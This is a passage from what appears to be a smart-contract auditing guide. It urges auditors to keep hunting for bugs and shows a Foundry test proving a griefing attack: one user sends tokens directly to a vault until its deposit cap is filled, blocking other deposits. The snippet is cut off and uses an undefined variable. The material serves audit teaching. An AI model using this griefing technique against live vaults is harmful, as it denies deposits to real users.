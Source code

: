What you need to note is that sometimes say you have found some bugs in the first pass. High vulnerabilities even. You then start to get all happy and excited and your mind naturally starts to chill out thinking you are in a good position. As a seciurity researcher, you need to train yourself so this does not happen. You must always be hungry. This sounds like it doesnt need noting but it does. There are more bugs and you need to find them. In fact when yu find one, you should be hungrier knowing that theres more. It is never enough. Do not get comfortable until the whole procedure is complete. even then you can redo the whole procedure or go a step further and do formal verification or break down all assumptions from second pass even more. You must keep going in the time you have allocated to auditing the codebase. Think about it like this if you have seen it, you have no way to know that 100 other people have not also seen it so you must be hungry to find the ones that no one else has seen and the deeper you go into this procedure with hunger, the higher your chances of seeing what others dont see.

# 17 IMPORTANCE OF AVOIDING LIMITING POC'S , NEVER ASSUME ALWAYS VERIFY
Also i want to stress the importance of writing non limiting pocs. You already know about the fact that you can end up discovering more bugs while writing poc's but the detail you put into the POC is extremely important as to whether you end up finding more bugs or not and I will show you an example of this. See the following test i wrote to prove a griefing attack:

```solidity
 function test_griefingdeposits(
        uint256 vaultId
    )
        external
    {
        VaultConfig memory fuzzVaultConfig = getFuzzVaultConfig(vaultId);
    
       
        //c user who will grief deposits
        address userA = users.naruto.account;
        deal(fuzzVaultConfig.asset, userA, 100e18);
        

        //c user trying to deposit into vault
        address userB = users.sasuke.account;
        deal(fuzzVaultConfig.asset, userB, 100e18);
     

        //c get deposit cap of vault
        uint128 depositCap = vaultsConfig[fuzzVaultConfig.vaultId].depositCap;
       

        //c get the deposit fee of the vault
        uint128 depositFee = uint128(vaultsConfig[fuzzVaultConfig.vaultId].depositFee);

        //c get assets sent to vault index token 
        uint256 assetminusfee = amount - uint256(depositFee);
         

        //c attempt to grief deposits
        vm.startPrank(userA);
        IERC20(fuzzVaultConfig.asset).transfer(fuzzVaultConfig.indexToken, depositCap);
        vm.stopPrank();


        //c check totalassets of vault
        uint256 totalAssets = IERC4626(fuzzVaultConfig.indexToken).totalAssets();
        console.log(totalAssets);

        //c user attempts to deposits into vault
        vm.startPrank(userB);
```